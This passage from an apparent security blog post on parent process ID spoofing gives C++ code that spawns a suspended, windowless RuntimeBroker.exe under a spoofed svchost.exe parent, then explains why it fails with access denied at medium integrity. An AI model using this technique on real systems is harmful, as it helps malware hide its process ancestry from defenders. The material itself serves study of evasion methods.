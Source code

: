 ```cpp
int main() {
    STARTUPINFOEX si = { sizeof(si) };
    PROCESS_INFORMATION pi;
    SIZE_T attributeSize;

    InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
    si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attributeSize);
    InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);

    LPCWSTR parentProcess = L"svchost.exe";
    DWORD parentPID = getPPID(parentProcess);
    printf("[+] Spoofing %ws (PID: %u) as the parent process.\n", parentProcess, parentPID);

    HANDLE procHandle = OpenProcess(PROCESS_ALL_ACCESS, false, parentPID);
    if (!procHandle) {
        wchar_t errorMessage[256];
        FormatMessage(FORMAT_MESSAGE_FROM_SYSTEM, NULL, GetLastError(), MAKELANGID(LANG_NEUTRAL, SUBLANG_DEFAULT), errorMessage, 255, NULL);
        printf("[!] Failed to get a handle with the following error: %ws\n", errorMessage);
        return -1;
    }
    printf("[+] Got a handle of 0x%p\n", procHandle);

    UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &procHandle, sizeof(HANDLE), NULL, NULL);

    LPCWSTR spawnProcess = L"C:\\Windows\\System32\\RuntimeBroker.exe";
    CreateProcess(spawnProcess, NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (STARTUPINFO*)&si, &pi);
    printf("[+] Spawning %ws (PID: %u)\n", spawnProcess, pi.dwProcessId);

    return 0;
}
```

However, the code didn't work as expected and we got an "**Access is denied**" error. 
```powershell
PS C:\Users\Meelo\Desktop> .\PickyPPIDSpoofing.exe
[+] Spoofing svchost.exe (PID: 860) as the parent process.
[!] Failed to get a handle with the following error: Access is denied.
```

Based on the output above, the code is trying to spoof `svchost.exe` with a PID of **860**. And if we look at [Process Hacker](https://processhacker.sourceforge.io/), this process has an integrity level of **SYSTEM**. Since we're running as a standard user, with **MEDIUM** integrity level, we don't have access to processes running with **SYSTEM** integrity level.

[![Integrity Level of svchost.exe](/static/img/2021-11-22-picky-ppid-spoofing/integrity-level.png)](/static/img/2021-11-22-picky-ppid-spoofing/integrity-level.png)
